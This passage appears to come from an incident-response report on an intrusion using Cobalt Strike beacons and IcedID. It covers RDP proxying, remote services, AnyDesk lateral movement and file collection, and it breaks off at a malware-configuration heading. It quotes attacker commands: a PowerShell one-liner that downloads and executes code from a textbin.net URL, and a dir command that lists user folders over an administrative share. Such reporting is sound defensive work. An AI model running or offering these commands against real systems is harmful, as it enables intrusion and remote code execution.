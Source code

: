 Remote Desktop Protocol

The beacon C:\ProgramData\lsass.exe was used to proxy RDP connections and connect to another computer.

Proxying RDP traffic via a process such as a Cobalt Strike beacon reduces the exposure of the threat actor’s own infrastructure, and blends RDP activity to those of internal hosts on the network.

The use of RDP was extensively used throughout the intrusion, using a variety of processes (beacon injected or standalone).

The common processes observed were two injected processes, and the Nigu.exe/lsass.exe.

These processes are unusual for establishing RDP connections. During these RDP sessions, the threat actors often opened Internet Explorer to download their beacons or commands they wanted to run on lateral hosts. An example would be pon.txt. This file was opened during their RDP session and contained the PowerShell commands used to launch a new beacon:

"C:\Windows\system32\NOTEPAD.EXE" C:\Users\REDACTED\Downloads\pon.txt

pon.txt contents:

powershell iex((new-object net.webclient).downloadstring('https://textbin.net/raw/ls1jhefawt'))

# Remote Service

Remote services were also created in order to propagate Cobalt Strike beacons in the network.

# AnyDesk

AnyDesk was used to move laterally between a workstation and a backup server as shown below with Sysmon event 3 (Network connection):

# Collection

To achieve collection of various directories on multiple hosts, the threat actors used the dir command through the administrative share c$ and redirected the output to a file text named listing.txt.

C:\Windows\System32\cmd.exe /C dir \\[REDACTED HOST]\c$\users >> listing.txt

In addition, multiple text files were also created to store the output of various discovery commands and scripts.
- C:\ProgramData\qwe3.txt 
- C:\Users\[REDACTED USER]\Downloads\sns.txt 
- C:\Windows\Temp\events_Administrator.text 
- C:\Windows\Temp\events_[REDACTED USER].text 
- C:\Windows\Temp\listing.txt C:\Windows\Temps.txt 
- C:\Windows\Temp\sserv.txt

# IcedID

The malware configuration:
